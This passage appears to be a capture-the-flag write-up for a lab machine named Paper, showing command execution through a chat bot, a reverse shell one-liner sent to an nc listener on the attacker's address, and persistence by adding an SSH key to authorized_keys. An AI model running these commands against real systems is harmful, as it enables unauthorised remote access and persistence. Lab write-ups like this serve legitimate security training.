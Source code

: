It works just fine:

```text
- run id
    
- ![](http://chat.office.paper/avatar/recyclops)
    
    recyclopsBot12:59 PM
    
    Running id
    
- Running id
    
- uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

```text
-   
    Running cat ~/user.txt
    
- eb01bf[...]
```

I use the same mechanism to run a reverse shell (`sh -i >& /dev/tcp/10.10.16.5/443 0>&1`) back to my `nc` listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.143] 40934
sh: cannot set terminal process group (1663): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
sh-4.4$ 
```

To gain `ssh` access, I add my public key to `~/.ssh/authorized_keys`:

```text
pwd
/home/dwight/.ssh
echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k > authorized_keys
```

And login:

```console
$ ssh dwight@${t}
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ 
```
